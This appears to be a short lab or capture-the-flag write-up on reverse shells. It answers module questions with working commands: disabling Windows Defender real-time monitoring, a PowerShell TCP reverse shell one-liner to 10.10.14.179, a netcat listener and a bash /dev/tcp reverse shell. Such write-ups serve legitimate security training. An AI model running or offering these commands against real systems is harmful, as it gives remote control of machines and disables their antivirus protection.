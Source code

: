 # Reverse Shells

### When establishing a reverse shell session with a target, will the target act as a client or server?

client

### Connect to the target via RDP and establish a reverse shell session with your attack box then submit the hostname of the target box.

{% code overflow="wrap" %}
```powershell
#Windows target
#Disable AV
Set-MpPreference -DisableRealtimeMonitoring $true
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.179',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
{% endcode %}

```bash
#Server (attack box)
sudo nc -lvnp 443
```

#### Linux Target

```bash
#1
bash -i >& /dev/tcp/10.10.14.179/8080 0>&1
#2
nc -lvnp 8080
```
